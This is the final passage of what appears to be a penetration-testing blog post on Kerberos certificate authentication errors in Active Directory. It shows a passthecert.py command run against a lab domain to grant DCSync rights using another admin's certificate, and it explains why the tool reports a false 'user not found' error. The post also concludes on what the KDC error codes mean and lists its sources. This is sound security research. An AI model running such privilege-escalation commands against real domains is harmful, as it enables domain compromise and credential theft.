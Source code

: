 However, this may still work in some environments!

### Is DCSyncing possible with KDC_ERR_INCONSISTENT_KEY_PURPOSE?
Let's try the same DCSync with Pass The Cert method, but now with a certificate that results in `KDC_ERR_INCONSISTENT_KEY_PURPOSE` when we authenticate.

This time, Pass The Cert gives a false error that the user `testuser` doesn't exist.
```sh
┌──(kali㉿kali)-[~]
└─$ python3 passthecert.py -action modify_user -crt otheradmin.crt -key otheradmin.key -target testuser -elevate -domain testcorp.local -dc-host 172.17.199.253
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] User not found in LDAP: testuser
sAMAccountName testuser not found in dc=testcorp,dc=local!
```

This of course is a false error. And this error was also observed during the pentest we performed. It simply is not able to setup a authenticated LDAP connection using the certificate so it returns a IndexError which gets catched by.

```py
except IndexError:
    logging.error('User not found in LDAP: %s' % accountName)
```

## Conclusion
This was a nice dive into Kerberos errors regarding Pass the Certificate. We found some ways around errors to still abuse the PFX and now have a better understanding of what they mean. By taking such a practical approach and configuring our own environment, we discovered that the `KDC_ERROR_CLIENT_NOT_TRUSTED` error message likely does not mean that PKINIT isn't supported, but rather a trust issue between CA and DC.

## Sources

### Research Papers & Blog Posts
- [Certified Pre-Owned (SpecterOps)](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)
- [Machine Accounts in Active Directory (XMCO)](https://www.xmco.fr/en/active-directory-en/part-5-machine-accounts-in-the-active-directory/)
- [UnPAC the Hash - The Hacker Recipes](https://www.thehacker.recipes/ad/movement/kerberos/unpac-the-hash)
- [Authenticating with Certificates When PKINIT is Not Supported (Almond OffSec)](https://offsec.almond.consulting/authenticating-with-certificates-when-pkinit-is-not-supported.html?ref=7ms.us)
- [VulnLab Push (Arz101 on Medium)](https://arz101.medium.com/vulnlab-push-13d1e89878ae)
- [SensePost - Diving Into AD CS: Exploring Some Common Error Messages](https://sensepost.com/blog/2025/diving-into-ad-cs-exploring-some-common-error-messages)
- [Configuring a Certificate Template for Domain Controllers (Gradenegger.eu)](https://www.gradenegger.eu/en/configuring-a-certificate-template-for-domain-controllers/)
- [Esc15 - The Evolution of ADCS Attacks (Abricto Security)](https://abrictosecurity.com/esc15-the-evolution-of-adcs-attacks/)
